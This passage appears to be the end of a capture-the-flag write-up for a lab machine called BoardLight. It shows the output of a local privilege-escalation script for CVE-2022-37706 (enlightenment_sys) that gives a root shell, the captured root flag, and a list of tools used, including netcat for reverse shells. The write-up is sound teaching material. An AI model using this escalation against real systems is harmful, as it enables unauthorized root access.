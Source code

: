 *The exploit successfully grants us root access:*

```console
larissa@boardlight:/tmp$ ./exploitPrivEsc.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.

root@boardlight:/tmp# id 
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)

root@boardlight:/tmp# cat /root/root.txt 
8f819211433863920a2b61bca6d9a153

---------------------------------------------------------------------------------
```

## Conclusion
*This write-up covered the process of exploiting the vulnerable Dolibarr application, gaining user access, and escalating privileges using a known vulnerability in the enlightenment_sys binary. Through proper enumeration and exploitation, we achieved root access and retrieved both user and root flags.*

> [!IMPORTANT]
>
>    **`ping`**: To verify connectivity to the target machine.
> 
>    **`nmap`**: To scan open ports and services.
> 
>   **`ffuf`**: For subdomain enumeration.
>
>   **`curl`**: To download scripts on the target machine.
>
>   **`netcat`**: To establish reverse shells.
>
>   **`LinPEAS`**: To search for privilege escalation vectors


